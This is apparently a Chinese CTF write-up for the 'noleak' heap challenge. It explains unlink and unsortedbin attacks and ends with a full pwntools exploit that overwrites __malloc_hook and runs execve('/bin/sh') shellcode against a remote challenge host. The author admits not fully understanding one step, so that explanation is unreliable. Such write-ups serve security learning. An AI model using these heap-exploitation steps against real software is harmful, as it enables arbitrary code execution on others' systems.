




## noleak
能力不够这题没有完全看懂WP，之后有机会回头看下  
很多知识都还不懂，只能把目前找到的规律记下来，以后来看。  
这道题的bug特别多，又是可以很轻易地可以实现堆溢出，又是free指针后没有置空可以很容易的实现UAF，连保护也没开全，但我仍然做不到完成这题（太菜了），这道题主要考查的是unsortedbin attack，由于漏洞很多所以揭发多样，目前只介绍我看的一种。  
  
首先介绍unsortedbins的存储结构，如图所示  
 
同时unsortedbin是先进先出的结构，也就是说如果再申请一块0x110的空间会首先选择chunk0的位置。  
在该题中我发现unsortedbin的最后一个freechunk的bk会指向main_arena+88。貌似是只想topchunk用来为之后开辟空间用的。  
首先说下free过程  
  
接下来说下unlink的过程，如果在释放一个符合unsortedbin大小的chunk时发现他的前面或者后面紧挨着一个freechunk，那么就会发生合并操作，以bin在新被释放的chunk上面（bin地址更小）为例，会经理以下步骤：
1. 检验chunk size的最后一位是不是0（说明前一个是被释放的）
2. 根据presize找到前一个freechunk的起始位置  
3. 判断freechunk是否满足 p->bk->fd=p 和 p->fd->bk=p   

unlink函数的代码如下    

```
>void unlink(malloc_chunk *P, malloc_chunk *BK, malloc_chunk *FD)
{
	FD = P->fd;
	BK = P->bk;
	if (__builtin_expect (FD->bk != P || BK->fd != P, 0))
	       malloc_printerr(check_action,"corrupted double-linked list",P);
	else
	       {
		       FD->bk = BK;
		       BK->fd = FD;
	       }
}
```

可以看到他会把p->fd->bk赋值成p->bk，同时把p->bk->fd赋值成p->fd，也就是说利用好unlink可以做到任意地址写  
我们希望在buf区域留下buf或者比buf略小的地址，这样就能实现直接编辑buf中各chunk地址，就可以更方便的完成在任意地址写下东西。  
做到这一步的思路如下  
1. 连续构造chunk0和chunk1，通过任意编辑内容并堆溢出可以在chunk0中布置好一个假的freechunk，并改变chunk1的头部让它以为它上面有一个freechunk  
2. 由于假freechunk的起始地址正好存储在buf[0]，因此只需要让假freechunk的fd为buf-0x18和buf-0x10就可以满足 p->bk->fd=p 和 p->fd->bk=p  
3. free chunk1，便可以使buf[0]处的值改为buf-0x18  

  
代码如下  
```create(0x100,b'a'*0x100)
create(0x100,b'b'*0x100)
payload=p64(0)+p64(0x101)
payload+=p64(buf_addr-0x18)+p64(buf_addr-0x10)
payload+=b'a'*0xe0+p64(0x100)+p64(0x110)
change(0,0x110,payload)
delete(1)
```
接下来连续开辟两个chunk并释放其中一个，这时被释放的freechunk的fd与bk都是main_arena+88，将他的fd和bk依次改为0和buf+0x20（在上一步已经把buf+20伪造成了一个0x20大小的freechunk），之后再重新构造一个0x100的chunk把freechunk填充，便能发现buf+0x20的fd变成了main_arena+88  
上面这段我还是没搞清楚怎么回事稀里糊涂的就把main_arena+88放进buf了，之后因为__malloc_hook的地址在main_arena+88上方，只需要把最后一个字节改成0x10就行了  
下面的步骤就是  
1. 在bss里放shellcode  
2. 把buf里的main_arena+88变成__malloc_hook
3. 在__malloc_hook写下bss地址，这样当执行分配内存时就会调用shellcode  
完整exp  
```
from pwn import *
from LibcSearcher import *
context.log_level = 'debug'
if len(sys.argv) == 1 or sys.argv[1] == 'l':
    p = process('./timu')
    elf = ELF('./timu')
else:
    p = remote('61.147.171.105', 57981)
    elf = ELF('./timu')
    pause()
context(arch = "amd64", os = 'linux')
bss_stage=elf.bss()+0x70
buf_addr=0x000000000601040
bss_addr=elf.bss()
def create(size,data):
    p.recvuntil(b'Your choice :')
    p.sendline(b'1')
    p.recvuntil(b'Size: ')
    p.sendline(str(size).encode())
    p.recvuntil(b'Data: ')
    p.sendline(data)
def delete(index):
    p.recvuntil(b'Your choice :')
    p.sendline(b'2')
    p.recvuntil(b'Index: ')
    p.sendline(str(index).encode())
def change(index,size,data):
    p.recvuntil(b'Your choice :')
    p.sendline(b'3')
    p.recvuntil(b'Index: ')
    p.sendline(str(index).encode())
    p.recvuntil(b'Size: ')
    p.sendline(str(size).encode())
    p.recvuntil(b'Data: ')
    p.sendline(data)

create(0x100,b'a'*0x100)
create(0x100,b'b'*0x100)
payload=p64(0)+p64(0x101)
payload+=p64(buf_addr-0x18)+p64(buf_addr-0x10)
payload+=b'a'*0xe0+p64(0x100)+p64(0x110)
change(0,len(payload),payload)
# pause()
delete(1)
pause()
payload=p64(0)*3+p64(bss_addr)+p64(buf_addr)+p64(0)*3+p64(0x20)
change(0,len(payload),payload)
# pause()
create(0x100,b'c'*0x100)
create(0x100,b'd'*0x100)
print('create two')
# pause()
delete(2)
# pause()
payload=p64(0)+p64(buf_addr+0x20)
change(2,len(payload),payload)

create(0x100,b'e'*0x100)
print('create e')
# pause()
payload = p64(bss_addr) + p64(buf_addr)
payload += p64(0) * 4
payload += b"\x10"
change(1, len(payload), payload)
# pause()
# shellcode = asm(shellcraft.sh())
shellcode=b'/bin/sh\x00'
shellcode+=asm('xor rax,rax;add rax,0x3b;xor rsi,rsi;xor rdx,rdx;xor rdi,rdi;add rdi,0x000000000601020;syscall')
change(0, len(shellcode), shellcode)
print("shell")
# pause()
change(6, 0x8, p64(bss_addr+8))
pause()
# create(0x10, b"x"*0x10)
# pause()
p.interactive()
```
在取得交互后新建chunk时便getshell，仍然是远程打得通本地打不通，不知道为啥。